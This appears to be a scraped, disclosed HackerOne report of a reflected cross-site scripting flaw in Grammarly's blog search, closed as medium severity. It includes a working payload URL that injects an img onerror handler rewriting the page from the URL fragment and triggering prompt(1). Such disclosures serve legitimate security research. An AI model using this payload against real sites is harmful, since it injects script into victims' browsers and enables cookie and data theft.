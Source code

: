 # Reflected Cross Site Scripting (XSS)

## Report Details
- **Report ID**: 435144
- **URL**: https://hackerone.com/reports/435144
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-11-06T19:43:37.557Z
- **Disclosed**: 2019-04-30T06:10:04.276Z

## Reporter
- **Username**: sarmadkhan
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: grammarly

## Vulnerability Information
hi there,
here is the link that fired XSS

https://www.grammarly.com/blog/search/"><img src=x onerror=document.body.innerHTML=location.hash>#<img src=x onerror=prompt(1)>

## Impact

stealing cookies
stealing data etc.

## Attachments
No attachments
